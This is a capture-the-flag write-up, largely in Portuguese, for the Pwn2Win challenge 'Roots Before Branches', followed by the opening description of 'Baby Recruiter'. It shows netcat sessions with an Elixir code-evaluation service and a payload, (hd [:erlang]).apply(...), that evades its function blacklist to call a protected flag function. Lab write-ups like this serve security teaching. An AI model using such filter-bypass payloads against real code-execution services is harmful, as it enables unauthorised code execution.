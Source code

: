 ### Roots Before Branches
```
We intercepted Sophia new defense system. It seems like she is using some kind of filter in the command sent to a certain server. There is also another security measure that we could not identify, we need a bypass.

Server: 200.136.252.46 4000

Server backup: 159.203.47.1 4000


https://cloud.ufscar.br:8080/v1/AUTH_c93b694078064b4f81afd2266a502511/static.pwn2win.party/roots_before_branches_8a270ed1f722a026ceeb53739c58afe1b99543f1ec7b5497a6c9e0a128d610b0.tar.gz
```

Rodando o programa (depois de 30 minutos de docker build), ele printa

```
Inserting 'Elixir.KillMe.Server', get_flag into blacklist
Blacklist now 'Elixir.KillMe.Server', get_flag
```

Conectando com netcat, e enviando `1`, ele responde com `{1, []}`, que é um valor de
elixir/erlang. Assumi que era execução de código arbitrário e que o objetivo é chamar
a função KillMe.Server.get_flag. Como ela está blacklistada, é necessário achar outro
método de chamar ela. Usando a função `apply/3`, é possível rodar funções arbitrárias
de módulos arbitrários. Ela também está blacklistada, como pode ser visto:
```
» nc 127.0.0.1 4000                                           my@laptop
&apply/3
"This is blacklisted"  
```

`apply(...)` é equivalente à `:erlang.apply(...)`. É possível chamar funções com o modulo
sendo um valor, `(hd [:erlang]).apply(...)`, que não é blacklistado:

```
» nc 127.0.0.1 4000                                           my@laptop
(hd [:erlang]).apply(IO, :puts, ["Hello World"])
{:ok, []}  
```

Portanto:

```
» nc 127.0.0.1 4000                                           my@laptop
(hd [:erlang]).apply(KillMe.Server, :get_flag, [])
{"CTF-BR{something_here}", []}  
```

Rodando no servidor resulta na flag.


### Baby Recruiter
```
We found a Curriculum service from HARPA. Well, what do you think about pwn it? :)

P.S.: the flag is not in default format, so add CTF-BR{} when you find it (leet speak).
```
